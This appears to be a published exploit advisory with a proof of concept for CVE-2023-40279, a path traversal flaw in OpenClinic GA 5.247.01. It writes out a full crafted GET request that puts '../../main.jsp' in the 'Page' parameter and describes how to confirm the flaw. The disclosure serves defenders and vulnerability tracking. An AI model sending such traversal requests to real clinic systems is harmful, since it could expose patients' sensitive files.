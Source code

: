 # Exploit Title: OpenClinic GA 5.247.01 - Path Traversal (Authenticated)
# Date: 2023-08-14
# Exploit Author: V. B.
# Vendor Homepage: https://sourceforge.net/projects/open-clinic/
# Software Link: https://sourceforge.net/projects/open-clinic/
# Version: OpenClinic GA 5.247.01
# Tested on: Windows 10, Windows 11
# CVE: CVE-2023-40279

# Details
An issue was discovered in OpenClinic GA version 5.247.01, where an attacker can perform a directory path traversal via the 'Page' parameter in a GET request to 'main.do'. This vulnerability allows for the retrieval and execution of files from arbitrary directories.

# Proof of Concept (POC)
Steps to Reproduce:

- Crafting the Malicious GET Request:

- Utilize a web browser or a tool capable of sending custom HTTP requests, such as curl or Burp Suite.
- Format the GET request as follows (in this example, `../../main.jsp` is used to attempt directory traversal to access `main.jsp`):

GET /openclinic/main.do?Page=../../main.jsp HTTP/1.1
Host: 192.168.100.5:10088
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Connection: close
Cookie: JSESSIONID=[SESSION ID]
Cache-Control: max-age=0

2. Confirming the Vulnerability:
- Send the crafted GET request to the target server.
- If the server responds with the content of the requested file (e.g., `main.jsp`) from outside the intended directory, it confirms the presence of a directory path traversal vulnerability.
- This vulnerability can lead to sensitive information disclosure or more severe attacks.